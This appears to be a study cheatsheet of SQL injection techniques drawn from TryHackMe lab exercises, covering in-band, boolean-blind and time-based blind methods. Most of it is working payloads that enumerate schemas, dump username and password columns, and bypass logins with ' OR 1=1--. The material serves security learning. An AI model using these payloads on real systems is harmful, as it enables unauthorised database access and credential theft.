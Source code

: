 # SQL Injection commands Cheatsheet

Source  THM

## Inband SLQi

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just 
refers to the same method of communication being used to exploit the 
vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

- display error message

```sql
' or using 1 UNION SELECT 1
```

- get database name



```sql
1 UNION SELECT 1,2,database()
```

- get list of tables in the database

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- get structure of tables

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- get user credentials from db

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

## Blind SQLi - Authentication Bypass

Blind SQLi is when we get little to no feedback to confirm whether our injected 
queries were, in fact, successful or not, this is because the error 
messages have been disabled, but the injection still works regardless.

We can test using the following payload;

```
' OR 1=1--
```

## Blind SQLi - Boolean based

Boolean-based SQL Injection refers to the response we receive from our injection 
attempts, which could be a true/false, yes/no, on/off, 1/0 or any 
response that can only have two outcomes. That outcome 
confirms that our SQL Injection payload was either successful or 
not. On the first inspection, you may feel like this limited response 
can't provide much information. Still, with just these two 
responses, it's possible to enumerate a whole database structure and 
contents.

- check number of columns in the DB ( we keep adding column numbers until we get response as true.)

```
admin123' UNION SELECT 1,2,...n;--
```

- Get database name (we cycle through different letters until we get true as the result for each letter. e.g. 's-q-l-i%' **sqli_three**)

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

- Enumerate table names (we cycle through different letters until we get true as the result for each letter. e.g. 'u-s-e-r%' **user**)

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

- To get users and their password, 

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'
admin123' UNION SELECT 1,2,3 from users where username like 'a%
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Blind SQLi - Time Based

A time-based blind SQL injection is very similar to the above Boolean-based one in that the same requests are sent, but there is no visual 
indicator of your queries being wrong or right this time. Instead, your 
indicator of a correct query is based on the time the query takes to 
complete. This time delay is introduced using built-in methods such 
as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.

- Check number of columns in a table (we add columns until the time delay occurs.)

```sql
admin123' UNION SELECT SLEEP(5),2,...;--
```

- Getting usernames and passwords

```sql
admin123' UNION SELECT SLEEP(5),2,3 from users where username='admin' and password= '4961';--'
```


